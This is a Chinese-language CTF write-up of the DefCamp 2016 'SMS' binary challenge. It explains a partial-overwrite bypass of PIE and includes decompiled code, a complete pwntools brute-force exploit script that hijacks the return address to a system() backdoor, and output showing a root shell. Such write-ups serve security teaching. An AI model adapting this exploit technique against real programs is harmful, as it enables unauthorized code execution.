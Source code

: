 ```yaml
---
layout: post
title: pwn DefCampCTF2016 SMS
excerpt: "DefCampCTF2016 SMS wirteup"
categories: [Writeup]
comments: true
---
```


PIE(position-independent executable, 地址无关可执行文件技术就是一个针对代码段`.text`, 数据段`.*data`，`.bss`等固定地址的一个防护技术。

本文通过partial write绕过PIE

partial write(部分写入)就是一种利用了PIE技术缺陷的bypass技术。由于内存的页载入机制，PIE的随机化只能影响到单个内存页。通常来说，一个内存页大小为0x1000，这就意味着不管地址怎么变，某条指令的后12位，3个十六进制数(就是最后的1.5个字节)的地址是始终不变的。

由于程序是小端序,所以覆盖return addr的时候会从后往前覆盖,因此通过覆盖EIP的后8或16位 (按字节写入，每字节8位)就可以快速爆破或者直接劫持EIP

最终就是写入1.5个字节的地址,爆破0.5个字节的地址,完成绕过PIE保护

checksec
```python
>>> from pwn import *
>>> print ELF('./SMS').checksec()
[*] '/root/sploitfun/DefCamp_CTF_2016/SMS'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
```
通过ida查看到程序中的后门地址,通过查看frontdoor的汇编代码我们知道其地址后三位是0x900
```
int frontdoor()
{
  char s; // [sp+0h] [bp-80h]@1

  fgets(&s, 128, _bss_start);
  return system(&s);
}
```
```
.text:0000000000000900                 push    rbp
.text:0000000000000901                 mov     rbp, rsp
.text:0000000000000904                 add     rsp, 0FFFFFFFFFFFFFF80h
.text:0000000000000908                 mov     rdx, cs:__bss_start ; stream
.text:000000000000090F                 lea     rax, [rbp+s]
.text:0000000000000913                 mov     esi, 80h        ; n
.text:0000000000000918                 mov     rdi, rax        ; s
.text:000000000000091B                 call    _fgets
.text:0000000000000920                 lea     rax, [rbp+s]
.text:0000000000000924                 mov     rdi, rax        ; command
.text:0000000000000927                 call    _system
.text:000000000000092C                 nop
.text:000000000000092D                 leave
```
set_user得知name的地址在a1 + 140
```c
int __fastcall set_user(__int64 a1)
{
  char s[140]; // [sp+10h] [bp-90h]@1
  int i; // [sp+9Ch] [bp-4h]@1

  memset(s, 0, 0x80uLL);
  puts("Enter your name");
  printf("> ", 0LL);
  fgets(s, 128, _bss_start);
  for ( i = 0; i <= 40 && s[i]; ++i )
    *(_BYTE *)(a1 + i + 140) = s[i];
  return printf("Hi, %s", a1 + 140);
}
```
而set_sms中,strncpy的长度保存在a1 + 180
```c
char *__fastcall set_sms(__int64 a1)
{
  char s; // [sp+10h] [bp-400h]@1

  memset(&s, 0, 0x400uLL);
  puts("SMS our leader");
  printf("> ", 0LL);
  fgets(&s, 1024, _bss_start);
  return strncpy((char *)a1, &s, *(_DWORD *)(a1 + 180));
}
```
从而可以通过name,控制set_sms中strncpy的长度

payload如下
```
payload = 'a'*40                                        #padding
payload += '\xca'                                        #修改长度为202，即payload的长度，这个参数会在其后的strncpy被使用
io.sendline(payload)
io.recv()
payload = 'a'*200                                        #padding
payload += '\x01\xa9'                                #frontdoor的地址后三位是0x900, +1跳过push rbp
io.sendline(payload)
```
我们看到注释里用的不是0x900而是0x901，这是因为在实际调试中发现跳转到frontdoor时会出错。为了验证payload的正确性，我们可以在调试时通过IDA修改内存地址修正爆破位的值，此处从略。

最终payload
```python
#!/usr/bin/python
#coding:utf-8
from pwn import *

context.update(arch = 'amd64', os = 'linux')
i = 0

while True:
	i += 1
	print i
	io = process('SMS')
	io.recv()
	payload = 'a'*40					#padding
	payload += '\xca'					#修改长度为202，即payload的长度，这个参数会在其后的strncpy被使用
	io.sendline(payload)
	io.recv()
	payload = 'a'*200					#padding
	payload += '\x01\xa9'				#frontdoor的地址后三位是0x900, +1跳过push rbp
	io.sendline(payload)
	io.recv()
	try:
		io.recv(timeout = 1)			#要么崩溃要么爆破成功，若崩溃io会关闭，io.recv()会触发EOFError
	except EOFError:
		io.close()
		continue
	else:
		sleep(0.1)
		io.sendline('/bin/sh\x00')
		sleep(0.1)
		io.interactive()				#没有EOFError的话就是爆破成功，可以开shell
		break
```
最终结果
```
[+] Starting local process './SMS': pid 24042
[*] Switching to interactive mode
$ id
uid=0(root) gid=0(root) 组=0(root)
```